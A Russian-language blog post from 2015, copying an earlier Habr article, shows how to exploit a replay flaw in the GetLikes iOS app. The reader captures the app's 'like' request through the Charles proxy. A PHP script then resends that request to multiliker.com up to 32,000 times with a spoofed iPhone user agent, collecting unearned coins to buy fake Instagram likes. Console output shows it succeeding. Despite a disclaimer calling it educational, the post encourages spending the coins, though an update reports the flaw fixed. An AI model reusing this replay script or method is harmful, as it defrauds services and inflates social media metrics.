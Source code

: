 ```yaml
---
title: Как «накрутить лайки» в Instagram, используя уязвимость приложения «GetLikes» для iOS
date: 2015-06-26T11:44:42+00:00
aliases:
  - /hack/how-get-likes-in-instagram-using-getlikes-vulnerability.html
featured_image: /images/posts/insta-hack-wide.jpg
tags:
  - hack
  - instagram
  - iOS
  - like
  - linux
  - php
  - proxy
---
```


> Данный пост является повторением действий, описанных хабраюзером [jo1n](https://habr.com/users/jo1n/) в его [посте](https://habr.com/post/261153/) на хабре.
> 
> Disclaimer: Все действия носят сугубо познавательный характер. Более того - "накручивать лайки" - дело лишенное какого-либо смысла, всё рассмотренное ниже стоит рассматривать только как познавательный материал.

Для того, чтоб "накрутить лайки" мы будем использовать одну уязвимость, найденную тов. jo1n в приложении "[GetLikes][1]" для iOS, которая позволяет получать "монеты" в одноименном приложении без выполнения каких-либо действий (таких как установка "лайков" другим участникам приложения), и в последствии тратить их на то, чтоб нам к нашим фотографиям ставили массово эти самые "лайки".

<!--more-->

Рассмотрим весь процесс в виде нескольких этапов.

#### Подготовка

Для выполнения поставленной задачи нам потребуются:

  1. iPhone, на который есть возможность устанавливать приложения и изменять настройки сетевого подключения;
  2. Компьютер под управлением Windows (Linux / Mac OS);
  3. Подключение обоих устройств к одной WiFi точке;
  4. Подключение к сети интернет;

На компьютер скачиваем и устанавливаем [Сharles](http://www.charlesproxy.com/download/) - прокси-сервер для отладки web-приложений. После установки - запускаем (_не забываем **разрешить** доступ приложению к сети в настройках брандмауэра / межсетевого экрана_), и проверяем настройки порта и наличия статуса в правом нижнем углу "Recording":

![](https://hsto.org/files/44e/18f/38a/44e18f38ac914963b597148d64fbaa22.png)

#### Настройка

После этого - переходим к настройке iPhone на работу через наш прокси сервер. Для этого смотрим какой у нас IP присвоен компьютеру:

![](https://hsto.org/files/86b/99c/cae/86b99ccae5c74559af83db17f62aaf86.png)

И укажем полученные нами настройки в WiFi подключении iPhohe (`Настройки` &rarr; `Wi-Fi` &rarr; тап по `(i)` напротив активного подключения):

![](https://hsto.org/files/c24/323/086/c24323086faf4896bf16b405ae3705fd.png)

#### Установка приложения на iPhone

Далее - ставим приложение (поиск в App Store по словам `Get likes on Instagram` - третий результат) и авторизируемся в нем c помощью учетной записи от Instagram:

![](https://hsto.org/files/3af/065/7cc/3af0657cc9374a48b39908417b053ccb.png)

#### Получение запроса, который отправляет приложение

После этого очищаем текущую сессию в Charles, ставим 1 сердце, и смотрим что он нам покажет:

![](https://hsto.org/files/dee/165/898/dee1658989334baeb47ae4f56aa8aaaa.png)

  * `hash` — наш токен, который обновляется при авторизации в приложении;
  * `media` — номер изображения, которому мы поставили лайк;
  * `answer` — ответ от сервера instagram (поставили ли мы лайк или нет?).

#### Эксплуатация уязвимости

Уязвимость сервиса заключается в том, что этот же самый запрос мы можем выполнить очень много раз, вне зависимости от того - поставили мы "сердце" или же нет - нам будет зачислена 1 "монета". Автоматизируем данный процесс, например, при помощи такого php-скрипта:

```php
<?php

function postData($url, $data){
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER,true);
  curl_setopt($curl, CURLOPT_POST, true);
  curl_setopt($curl, CURLOPT_POSTFIELDS, $data);
  curl_setopt($curl, CURLOPT_USERAGENT, "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_0 ".
    "like Mac OS X; en-us) AppleWebKit/532.9 (KHTML, like Gecko) Version/4.0.5 ".
    "Mobile/8A293 Safari/6531.22.7");
  $out = curl_exec($curl);
  curl_close($curl);
  return $out;
}

if(!isset($argv[1]) && !isset($argv[2])) {
  die("You must pass *hash* and *media* strings in arguments".PHP_EOL);
} else {
  $hash = $argv[1];
  $media = $argv[2];
  $likes_count = 32000;

  $i = 0;
  while ($i < $likes_count){
    $delay = rand(10, 2000) / 1000;
    $out = json_decode(postData('http://www.multiliker.com/service/like2/', 'hash='.$hash.
                                '&#038;media='.$media.'&#038;answer={"status":"ok"}'), true);
    echo '['.$i.'] '.$out['result'].': '.$out['message'].' (delay '.$delay.')'.PHP_EOL;
    if($out['result'] !== 'success') {
      die('Update *hash* and *media* values'.PHP_EOL);
    }
    $i++;
    sleep($delay);
  }
}
```

И запускаем его из консоли на нашем дедике (первый параметр - это `hash` из ответа выше, а второй, соответственно - `media`):

```bash
$ php ./likes_craft.php "a752a54b08158c8fdee279d8fc2fc494013c911c" "1015696816576458399_632650570"
[0] success: Like has been received (delay 0.146)
[1] success: Like has been received (delay 0.592)
[2] success: Like has been received (delay 0.761)
[3] success: Like has been received (delay 1.937)
[4] success: Like has been received (delay 0.088)
[5] success: Like has been received (delay 1.189)
[6] success: Like has been received (delay 0.023)
[7] success: Like has been received (delay 1.557)
...
```

После чего можем убрать настройки прокси-сервера, оставить скрипт работать в фоне, а в приложении наблюдать как появляются халявные "монеты". Можно теперь их тратить на накрутку сердец :)

Знают ли разработчики о наличии уязвимости? Да, знают. Когда исправят и исправят ли вообще? Не известно.

### Update. Хуяюшки, усё пофиксили. Надо было раньше тебе успевать

 [1]: http://www.multiliker.com